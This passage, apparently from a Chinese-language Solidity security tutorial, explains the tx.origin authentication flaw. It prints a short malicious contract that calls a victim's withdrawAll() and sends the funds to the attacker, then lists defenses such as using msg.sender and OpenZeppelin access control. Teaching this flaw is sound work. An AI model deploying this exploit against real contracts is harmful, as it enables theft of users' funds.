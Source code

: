     ```
    
    攻击者可以创建以下恶意合约来利用这个漏洞：
    
    ```solidity
    pragma solidity ^0.8.0;
    interface IVictimContract {
        function withdrawAll() external;
    }
    contract MaliciousContract {
        address public owner;
        IVictimContract public victimContract;
        constructor(address _victimContractAddress) {
            victimContract = IVictimContract(_victimContractAddress);
            owner = msg.sender;
        }
        function attack() public {
            victimContract.withdrawAll();
        }
        receive() external payable {
            // 在这里，攻击者可以提取资金
            payable(owner).transfer(address(this).balance);
        }
    }
    
    ```
    
    攻击者可以诱骗合约所有者与恶意合约交互，比如通过调用`attack()`函数。由于`victimContract.withdrawAll()`在内部使用了`tx.origin`进行验证，它会认为所有者是发起交易的账户，即使实际调用是通过恶意合约进行的。这样，攻击者就可以控制所有者的资金。
    
    ### 防御措施
    
    为了避免这些风险，应遵循以下最佳实践：
    
    1. **避免使用`tx.origin`进行权限验证**：尽可能使用`msg.sender`，它代表直接调用合约的账户地址，而不是最初发起交易的账户。
    2. **使用OpenZeppelin的访问控制合约**：OpenZeppelin提供了`Ownable`和`Roles`等库，这些库使用`msg.sender`进行权限验证，而不是`tx.origin`。
    3. **审查和测试合约**：确保进行彻底的代码审查和测试，以识别和修复潜在的安全漏洞。
    通过避免使用`tx.origin`进行权限检查，并采用其他安全最佳实践，可以显著降低智能合约被攻击的风险。